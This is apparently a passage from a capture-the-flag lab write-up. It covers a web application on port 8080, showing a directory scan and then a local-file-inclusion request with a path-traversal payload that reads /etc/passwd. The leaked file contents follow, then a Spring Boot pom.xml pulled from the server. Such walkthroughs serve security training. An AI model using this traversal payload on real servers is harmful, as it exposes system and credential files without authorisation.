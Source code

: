     [>-------------------] - 5s      2346/1245774 429/s   http://10.10.11.204:8080/   

We have found an interesting path `/upload`, now let's check this call.

    GET /show_image?img=../../../../../../../../etc/passwd HTTP/1.1
    Host: 10.10.11.204:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1

Testing an LFI attempt, we quickly realize that we are going to GOAL.

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    <SNIP>

Now our goal is to navigate the filesystem and look for interesting artifacts.
While browsing we come across an interresing file found in `/var/www/WebApp/pom.xml`.

    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
            <modelVersion>4.0.0</modelVersion>
            <parent>
                    <groupId>org.springframework.boot</groupId>
                    <artifactId>spring-boot-starter-parent</artifactId>
                    <version>2.6.5</version>
                    <relativePath/> <!-- lookup parent from repository -->
            </parent>
            <groupId>com.example</groupId>
            <artifactId>WebApp</artifactId>
            <version>0.0.1-SNAPSHOT</version>
            <name>WebApp</name>
            <description>Demo project for Spring Boot</description>
            <properties>
                    <java.version>11</java.version>
                    </properties>
          <SNIP>
